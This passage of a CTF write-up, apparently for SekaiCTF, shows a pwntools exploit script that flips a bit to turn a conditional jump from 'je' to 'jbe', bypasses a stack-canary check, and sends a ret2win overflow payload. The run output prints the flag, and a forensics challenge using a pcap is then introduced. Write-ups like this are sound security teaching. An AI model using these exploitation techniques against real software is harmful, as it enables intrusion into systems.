 ```python
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
offset = 56
ret = 0x40101a
canary_jmp = 0x4016f4
bit_pos = 6

io = start()
io.sendlineafter(b"it:\n", str(hex(canary_jmp)).encode()) # Address of je instruction
io.sendlineafter(b"7):\n", str(6).encode())               # Overwrite from "je" to "jbe"

# Ret2win
payload = b"A"*offset
payload += pack(ret)
payload += pack(exe.sym.win)

io.sendlineafter(b"today:\n", payload)
io.interactive()
```
{: file="exploit.py" }

```console
$ python3 exploit.py
[+] Opening connection to chals.sekai.team on port 4077: Done
[*] Switching to interactive mode
SEKAI{w0w_pwn_s0_ez_wh3n_I_can_s3nd_a_c05m1c_ray_thru_ur_cpu}
```


# Forensics
## Eval Me
This challenge ended up with 303 solves in total during the CTF.

![Challenge](eval_me_chall.png)

We are given a `pcap` and a netcat port and address which we can connect to. The `pcap` contains recorded network packets which we should investigate with *wireshark*.
